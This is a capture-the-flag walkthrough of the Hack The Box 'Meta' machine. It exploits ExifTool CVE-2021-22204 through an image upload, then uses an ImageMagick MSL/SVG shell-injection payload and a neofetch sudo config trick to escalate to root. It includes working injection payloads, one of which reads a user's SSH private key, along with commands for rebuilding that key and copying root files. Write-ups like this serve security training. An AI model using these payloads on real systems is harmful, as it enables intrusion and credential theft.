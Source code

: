 ```yaml
---
title: Meta
tags: 
    - CVE-2021-22204
    - File Upload and Execution
    - ImageMagic
    - Neofetch
    - "Medium Machines"
categories:
    - "Hack The Box Writeup" 
date: 2022-02-07
description: "Hack The Box Machine - Meta writeup"
author: "Tejas"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
disableHLJS: false 
disableHLJS: false
hideSummary: true
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: false
UseHugoToc: true
cover:
    image: "https://pbs.twimg.com/media/FJehUQnXwA4d7Gi?format=jpg&name=medium" # image path/url
    relative: false # when using page bundles set this to true
    hidden: false # only hide on current single page
---
```


## Enumeration

### Open Ports

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCiNHVBq9XNN5eXFkQosElagVm6qkXg6Iryueb1zAywZIA4b0dX+5xR5FpAxvYPxmthXA0E7/wunblfjPekyeKg+lvb+rEiyUJH25W/In13zRfJ6Su/kgxw9whZ1YUlzFTWDjUjQBij7QSMktOcQLi7zgrkG3cxGcS39SrEM8tvxcuSzMwzhFqVKFP/AM0jAxJ5HQVrkXkpGR07rgLyd+cNQKOGnFpAukUJnjdfv9PsV+LQs9p+a0jID+5B9y5fP4w9PvYZUkRGHcKCefYk/2UUVn0HesLNNrfo6iUxu+eeM9EGUtqQZ8nXI54nHOvzbc4aFbxADCfew/UJzQT7rovB
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEDINAHjreE4lgZywOGusB8uOKvVDmVkgznoDmUI7Rrnlmpy6DnOUhov0HfQVG6U6B4AxCGaGkKTbS0tFE8hYis=
|   256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINdX83J9TLR63TPxQSvi3CuobX8uyKodvj26kl9jWUSq
80/tcp open  http    syn-ack ttl 63 Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumerating Webpage

{{< figure src="images/Untitled.png">}}


[`http://meta.htb/`](http://meta.htb/)  redirects to `artcorp.htb` lets put the domain in hosts file. 

{{< figure src="images/Untitled%201.png">}}

### Subdomain Enumeration

It says artcorp is in startup phase and it should launch soon. And metaview to launch soon. So, I’m assuming the subdomain could be `metaview.artcorp.htb` or `meta.artcorp.htb` something similar maybe let me try those two first. 

Unfortunately not! They ain’t the subdomain. Ok, time to run ffuf.

{{< figure src="images/Untitled%202.png">}}


My guesses could be wild! But ffuf found a subdomain `dev01.artcorp.htb` lets enumerate it

### Enumerating Webpage - dev01.artcorp.htb

{{< figure src="images/Untitled%203.png">}}

I got this when I uploaded a *webp* file. So we now know its png and jpg **only.**

I then uploaded a jpg file, and it looked like normal metadata viewer 🤔

{{< figure src="images/Untitled%204.png">}}

I googled something like this and found some interesting results 

{{< figure src="images/Untitled%205.png">}}

After uploading the malicious evil.png for POC to check if the exploit worked I made the remote machine ping back my IP. And I captured it using tcpdump. Upon seeing the log from tcpdump I can confirm RCE worked. 

{{< figure src="images/Untitled%206.png">}}

## Foothold

Let’s exploit the RCE which we have found. 

I tried reversehll payloads based upon the [first article](https://shahjerry33.medium.com/remote-code-execution-via-exif-data-im-dangerous-43557d7f3e7a) for some reason it doesn’t give the shell. But I can ping 😑. Ok I think its djvu thing from hackerone [report](https://hackerone.com/reports/1154542) as it has CVE-2021-22204. 

Detail explanation about the is [here](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/). Now lets use the exploit POC from [github](https://github.com/se162xg/CVE-2021-22204)

 

### Exploiting CVE-2021-22204

I first tried this [POC](https://github.com/se162xg/CVE-2021-22204) and then [this](https://github.com/bilkoh/POC-CVE-2021-22204). Finally [this](https://github.com/convisolabs/CVE-2021-22204-exiftool) one worked.

change the IP and Port. Upload the image.

{{< figure src="images/Untitled%207.png">}}

{{< figure src="images/Untitled%208.png">}}

### www-data to thomas

I found a cron job running. Lets see what it is. 

{{< figure src="images/Untitled%209.png">}}

{{< figure src="images/Untitled%2010.png">}}

Its running ImageMagic `/usr/local/bin/mogrify`

{{< figure src="images/Untitled%2011.png">}}

{{< figure src="images/Untitled%2012.png">}}

### Exploiting ImageMagic

{{< figure src="images/Untitled%2013.png">}}

I found two articles interesting lets try them first. 

article [1](https://rhinosecuritylabs.com/research/imagemagick-exploit-remediation/) [2](https://portswigger.net/daily-swig/imagemagick-pdf-parsing-flaw-allowed-attacker-to-execute-shell-commands-via-maliciously-crafted-image)

Article 1 doesn’t seem to work for me. So I’m not posting the things I did.

I found a [poc](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) close to article 2. Lets try it.

```xml
<image authenticate='ff" `echo $(id)> /dev/shm/tejas`;"'>  
<read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

{{< figure src="images/Untitled%2014.png">}}

Now I’ve RCE. Let’s exploit for shell as user Thomas.

Now let’s exfiltrate private key from thomas. 

```xml
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/id_rsa`;"'>
 <read filename="pdf:/etc/passwd"/>
 <get width="base-width" height="base-height" />
 <resize geometry="400x400" />
 <write filename="test.png" />
 <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink">
 <image xlink:href="msl:poc.svg" height="100" width="100"/>
 </svg>
</image>
```

After some time we’ll get the private key but its not formatted lets format it.

`echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa` 

`echo "b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn <sniped> bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=" | sed 's/ /\n/g' >> id_rsa`  

`echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa`

{{< figure src="images/Untitled%2015.png">}}

User flag owned!

## Privilege Escalation

I found the following information. Let’s see what we can do. 

{{< figure src="images/Untitled%2016.png">}}

configuration file for neofetch is located in `$Home/.config/neofetch/config.conf`

Configuration file is very huge, and I’m not interested in reading them. But I feel whenever I run it with sudo config file of user root is used. How do I make the program use the config file from current user thomas 🤔.

What is `XDG_CONFIG_HOME`? I found it interesting and googled it. It seems that I can set the base dir of config file as a environment variable. ok let’s set our home directory as a config directory.

{{< figure src="images/Untitled%2017.png">}}

Now lets modify the config file a bit so our command is executed as root. I modified the neofetch’s config file with `cp /root/root.txt /dev/shm/root.txt && chmod 777 /dev/shm/root.txt`

And then lets run neofetch as sudo.

{{< figure src="images/Untitled%2018.png">}}

Root Flag owned!